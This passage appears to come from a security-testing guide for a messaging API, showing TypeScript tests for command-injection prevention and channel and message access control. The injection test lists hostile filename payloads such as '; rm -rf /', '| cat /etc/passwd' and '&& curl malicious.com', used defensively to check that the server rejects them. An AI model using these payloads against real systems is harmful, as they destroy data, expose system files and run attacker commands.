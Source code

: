 ```typescript
          
        expect(response.body.error).toContain('Invalid query parameter');
      }
    });
  });

  describe('Command Injection Prevention', () => {
    const commandInjectionPayloads = [
      '; rm -rf /',
      '| cat /etc/passwd',
      '&& curl malicious.com',
      '`whoami`',
      '$(id)'
    ];

    it('should prevent command injection in file operations', async () => {
      const user = await createAuthenticatedUser();
      
      for (const payload of commandInjectionPayloads) {
        const response = await request(app)
          .post('/api/files/process')
          .set('Authorization', `Bearer ${user.token}`)
          .send({ filename: payload })
          .expect(400);
          
        expect(response.body.error).toContain('Invalid filename');
      }
    });
  });
});
```

### 5. Authorization and Access Control Testing

#### Role-Based Access Control Testing

```typescript
// test/security/access-control.test.ts
describe('Access Control Tests', () => {
  describe('Channel Access Control', () => {
    it('should prevent unauthorized channel access', async () => {
      const admin = await createUser({ role: 'admin' });
      const user = await createUser({ role: 'user' });
      const channel = await createPrivateChannel(admin);

      // User should not access private channel
      const response = await request(app)
        .get(`/api/channels/${channel.id}/messages`)
        .set('Authorization', `Bearer ${user.token}`)
        .expect(403);
        
      expect(response.body.error).toBe('Access denied');
    });

    it('should enforce message deletion permissions', async () => {
      const author = await createUser({ role: 'user' });
      const otherUser = await createUser({ role: 'user' });
      const message = await createMessage(author);

      // Other user should not delete message
      const response = await request(app)
        .delete(`/api/messages/${message.id}`)
        .set('Authorization', `Bearer ${otherUser.token}`)
```